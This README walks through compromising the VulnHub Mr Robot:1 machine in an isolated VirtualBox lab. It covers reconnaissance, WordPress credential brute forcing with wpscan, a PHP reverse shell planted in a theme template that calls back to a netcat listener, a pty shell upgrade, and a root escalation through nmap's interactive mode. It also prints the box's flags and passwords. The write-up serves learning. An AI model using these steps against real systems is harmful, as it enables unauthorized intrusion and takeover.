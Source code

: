 [![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)](#) 
[![Virtual Lab](https://img.shields.io/badge/VirtualBox-183A61?style=for-the-badge&logo=virtualbox&logoColor=white)](#) 
[![VulnHub](https://img.shields.io/badge/VulnHub-26A69A?style=for-the-badge&logo=v&logoColor=white)](https://www.vulnhub.com) 
[![Mr Robot:1](https://img.shields.io/badge/Mr_Robot_1-D32F2F?style=for-the-badge&logo=robots&logoColor=white)](https://www.vulnhub.com/entry/mr-robot-1,151/)  

[![Nmap](https://img.shields.io/badge/Nmap-4CAF50?style=for-the-badge&logo=n&logoColor=white)](https://nmap.org) 
[![Wpscan](https://img.shields.io/badge/Wpscan-F44336?style=for-the-badge&logo=wordpress&logoColor=white)](https://github.com/wpscanteam/wpscan) 
[![Dirsearch](https://img.shields.io/badge/Dirsearch-FF9800?style=for-the-badge&logo=search&logoColor=white)](https://github.com/maurosoria/dirsearch)  

[![Netcat](https://img.shields.io/badge/Netcat-9E9E9E?style=for-the-badge&logo=nc&logoColor=white)](https://nc110.sourceforge.io/)  
[![Python](https://img.shields.io/badge/Python-3776AB?style=for-the-badge&logo=python&logoColor=white)](https://www.python.org)  
[![Bash](https://img.shields.io/badge/Bash-4EAA25?style=for-the-badge&logo=gnubash&logoColor=white)](https://www.gnu.org/software/bash/)  
[![WordPress](https://img.shields.io/badge/WordPress-21759B?style=for-the-badge&logo=wordpress&logoColor=white)](https://wordpress.org)  
[![Reverse Shell](https://img.shields.io/badge/Reverse_Shell-000000?style=for-the-badge&logo=linux&logoColor=white)](#)  
[![CrackStation](https://img.shields.io/badge/CrackStation-5D4037?style=for-the-badge&logo=lock&logoColor=white)](https://crackstation.net)  


# Walkthrough Mr Robot:1

## Setting up the machine
The machine is set up in a closed environment [internal adapter] in ther virtual machine enabling communication only through that adapter.

### Setup a Virtual Lab
1. Setup the Network to be internal adapter and name it `Test-network`.
2. In the command prompt in the windows go to the virtual Box directory 
```cmd
cd "\Program Files\Oracle\VirtualBox"
```
3. Now type in
```cmd
vboxmanage dhcpserver add --network=Test-network --server-ip=10.38.1.1 --lower-ip=10.38.1.110 --upper-ip=10.38.1.120 --netmask=255.255.255.0 --enable
```
This enables the dhcp server virtually and allocates the ip address for range 10.38.1.110-120.

4. Now you have to enable another adapter for your kali linux machine having connection with the internal adapter `Test-network`.
![Screenshot 1](./pictures/0.png "Screenshot of the setup")
5. Boot up Both the machines.
 



--
## Guide:
### Key-1-of-3
1. Run the below command to know the available devices.
```bash
sudo arp-scan -l 
```
![ifconfig1](\pictures\2 "ifconfig")
You can see my ip address.

![arp-scan -l](\pictures\1 "ifconfig")
Now we know the Ip addresses.
### Ip-addresses :
| Ip address  | Associated device |
| ------------- |:-------------:|
| 10.38.1.112      | Kali-VM     |
| 10.38.1.113      | Mr_Robot     |

2. Run the command   
```bash
nmap -p- -A 10.38.1.113 -oN scan.txt
``` 
![nmap](\pictures\3 "nmap -p- -A 10.38.1.113 -oN scan.txt")
Here is the screenshot of scan report.

3. From the scan, Port 80 is open indicating an active web server in there
4. Go to the Browser and try to open ther site.
5. Since this is a web server, we can see whether there are any hidden directories in there
```bash
dirsearch -u http://10.38.1.113/
```
![Dirsearch](\pictures\4 "Dirsearsh result")

This image shows the output of dirsearch which has successfull pages [code = 200]
6.By examining all the sites, we can see the key in robots.txt; `http://10.38.1.113/robots.txt`.
![Robots.txt](\pictures\4 "Robots")

7. By going to the site `http://10.38.1.113/key-1-of-3.txt` we can see the 1st key
```
073403c8a58a1f80d943455fb30724b9
```

### Key-2-of-3.txt

1. In the same `http://10.38.1.113/robots.txt`, we find a `.dic` file containing large number of elements 
use `wc <filename>` to see the number of entries in the file.
2. We can observe that the words are repeated and in the file.
3. Use the command below, to sort it and write to another file
```bash
cat fsocity.dic | sort -u > sorted_fsocity.txt
```
4. If we have a look at the directories, we can notice a wordpress login page
![Dirsearch-wplogin](\pictures\6 "wordpress").
5. Open the link in the browser - `http://10.38.1.113/wp-login.php`.
6. We have a login page and a wordlist.
7. use `wpscan` to enumirate for the available users.
```bash
wpscan -v --url http://10.38.1.113/wp-login.php --enumerate --users-list sorted_fsocity.txt -o wpscan.txt
```
![wp-users](\pictures\7 "wordpress- users enumirated and found users").
Users available in the server

8. Password enumiration : 
```bash
wpscan -v --url http://10.38.1.113/wp-login.php -U "elliot" -P sorted_fsocity.txt -o password_elliot.txt
```
![Wp - password](\pictures\8 "Password for the user elliot").
Password for the user elliot.

9. Now login to the user using the credentilas we got `Username: elliot, Password: ER28-0652` 
10. Navigate to the `appearance -> editor -> 404 Template*`
11. Here we shall place a script that opens a shell [reverse shell]
12. Type in `locate php-reverse` and copy the file named `/usr/share/laudanum/wordpress/templates/php-reverse-shell.php` to your `pwd`.
13. Edit the ip address and portnumber to Ip = your kali linux ip address and port number = default https port number, In  my case its `IP: 10.38.1.112` & `Port: 443`.
14. Now open a new terminal instance `ctrl+shift+T` and type in the below command to start listining to the `Port 443`.
```bash
sudo nc -lvnp 443
```
15. Once yoy started this, go to the browser and type in any name followed by the ipaddress of the server
```web
For example : http://10.38.1.113/hi
```
![shell](\pictures\9 "reverse shell")
This results a forbidden page and our script is there in forbidden page and it gets executed. leading to `daemon` shell behind.

16. Here the choice of template made in `10th step` is not to be only `404 template`. It can be any of the listed. but redirecting to a forbidden page is a way more easier that redirecting to any particular page to `execute` the script. Any page that has a `client-side` error returns `404` and makes executing the script easy.
17. Now navigate to `cd home/robot` to find a `Key-2-of-3.txt` owned by user, `robot` and a `password.raw-md5` hash file containing the hash of the robot password saying, `robot:c3fcd3d76192e4007dfb496cca67e13b`
18. Decrypting the hash using ![crackstation](https://crackstation.net/) , we get the password as `abcdefghijklmnopqrstuvwxyz`
19. Type in `sudo su` -> this results in `su: must be run from a terminal`.
```Explaination
This is because the demon by default has no shell;
`$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
`
The above output says that.
since we dont have a shell we cannot switch users.
```
20. execute the below script in ther shell to invoke a bash shell for the user `daemon`
```bash
python -c 'import pty;pty.spawn("/bin/bash")'

```
21. Now we have a shell and we can login using `sudo su robot` and the `password : abcdefghijklmnopqrstuvwxyz`
22. Now we can see the contents of the file `Key-2-of-3.txt`
23. `Key-2-of-3.txt : 822c73956184f694993bede3eb39f959`

### Key-3-of-3.txt:

1. For this key we use the interactive mode of nmap which inturn can lead to a root shell 
![nmap vulnerability](https://vk9-sec.com/nmap-privilege-escalation/)
```Previlage Esclation 
In a interactive mode if we type in `!/bin/bash` we get the bash shell 
The maximum previlage is root, Nmap runnig in highest previlage causes this.
```
2. nmap --interactive
    1. Runs the nmap with higher previlage [previlage escalation]
    2. In an interactive mode if "!bash" is typed in, then the shell gets opened with the previlage of the interacting software.
    3. his results in higher previlage shell out.
    4. If !bash is typed in
        results, a current user owned bash shell
    5. If !sudo /bin/bash is typed in,
        results in saying
                `nmap> !sudo /bin/bash
                !sudo /bin/bash
                [sudo] password for robot: abcdefghijklmnopqrstuvwxyz
                robot is not in the sudoers file.  This incident will be reported.`

3. Robot is not in the sudoers file.

4. However, we are able to invoke a shell 
5. Since sh is a root owned shell by default, try
    1. `!sh` [this is a root shell by default].
        this resulted in ,
        nmap> !sh
        !sh
        `#` whoami
        `root`
6. Finally we got the `root` shell so we can see the contents of the root and there you go `cat /root/key-3-of-3.txt` and the key is `04787ddef27c3dee1ee161b21670b4e4`



















